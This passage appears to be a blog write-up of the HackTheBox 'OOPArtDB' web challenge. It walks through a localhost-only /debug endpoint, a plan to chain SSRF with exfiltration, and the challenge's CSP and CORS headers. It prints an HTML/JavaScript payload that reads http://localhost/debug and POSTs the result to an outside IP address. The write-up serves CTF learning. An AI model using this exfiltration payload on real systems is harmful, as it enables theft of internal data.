 ```yaml
---
title: HTB Insane Web OOPArtDB
description: Hardest challenge on HTB
date: 2024-02-20 02:45:01-0700
image: img/hackthebox.jpg
categories:
    - HackTheBox
tags:
    - web
    - htb
    - insane
---
```


## Intro

This challenge allows you to submit a URL to be "scanned" by a bot on the challenge server.
The flag is shown in the webapp once you have successfully accessed the appropriate page with the credentials of the "Overseer" user.

## Foothold

One of the first things I noticed in the source code, was the `/debug` and `/register` endpoint.
The `/debug` endpoint caught my attention because it could reveal the secret `REFERRAL_TOKEN` value which is required to register via `/register` as the higher privilege `researcher` type of user.

```js
// challenge/index.js

app.get("/debug", util.isLocalhost, (req, res) => {
    let utils = require("util");
    res.end(
        Object.getOwnPropertyNames(global)
        .map(n => `${n}:\n${utils.inspect(global[n])}`)
        .join("\n\n")
    );
});
```

When accessed via a GET request from localhost, it responds with a detailed inspection of all properties of the global object in Node.js.
It's a way to inspect the global environment for debugging purposes.
In all honesty, at this point I couldn't see how I could leverage this to get the flag, but it seemed like a good step up since I was obtaining higher permissions.
This is probably something I need to work on for the future.
This is clearly SSRF, but we can't see the output of the response, so we also need to combine it with a way to exfiltrate the response.
So then my next thought was to submit a URL I control.
The URL will contain a webpage that contains a script that will make a request to the `/debug` endpoint, and then submit the response from that request back to my own web server.

I hosted a web page on an EC2 instance, and had the following page:

```html
<html>
    <script>
        setTimeout(() => {
            fetch('http://localhost/debug', { method: 'GET' }).then(response => {
                    return response.text();
            }).then(data => {
                    setTimeout(() => {
                            fetch('http://54.242.152.96/exfil', {
                                    method: 'POST',
                                    body: data
                            });
                    }, 1500);
                })
        }, 1500);
    </script>
</html>
```

This somewhat worked, but I wasn't able to receive the request to exfil.

![First request received](img/2.png)

This request could have gotten blocked due to the CORS policy, and upon some research it seemed that `http.server` does not allow controlling the `CORS` header from the commandline.
However, it is possible with a little scripting and help from [stackoverflow](https://stackoverflow.com/questions/21956683/enable-access-control-on-simple-http-server)

Then we can verify it worked with burpsuite.
I blurred out the IP address of my EC2 instance since I don't want it getting touched :).

![Initial Request](img/3.png) ![Response with CORS policy](img/4.png) ![Request to `/debug`](img/5.png) ![Request to `/debug` received](img/6.png)

However, the POST request never went out.
This was again due to the CORS policy on my local `http.server` not havint the correct value, which then made me look into what the CORS and CSP policy was on the actual challenge.

```javascript
app.use((req, res, next) => {
    // no XSS or iframing :>
    res.setHeader("Content-Security-Policy", `
        default-src 'self';
        style-src 'self' https://fonts.googleapis.com;
        font-src https://fonts.gstatic.com;
        object-src 'none';
        base-uri 'none';
        frame-ancestors 'none';
    `.trim().replace(/\s+/g, " "));
    res.setHeader("X-Frame-Options", "DENY");
    next();
});
```

I couldn't find anything to indicate what the CORS policy was so I assumed it was as strict as possible.
My testing also implied this, so now is the time to think of how to bypass it.

### CORS

CORS is a policy defined by the web server that determines what requests it will accept.
If you intercept a response from a web server with a CORS policy you will see the header:

```
Access-Control-Allow-Origin: *
```

This header can have multiple values to specify multiple domains, or a wildcard as shown above, or a `null` value.
It makes sense too because a site that holds private information probably doesn't want to share information to applications outside of its domain.
Anyways, there are 2 parts to CORS.
There is a preflight request that happens from the client to the web server to ensure that the cross-site request is allowed, and then the actual request.



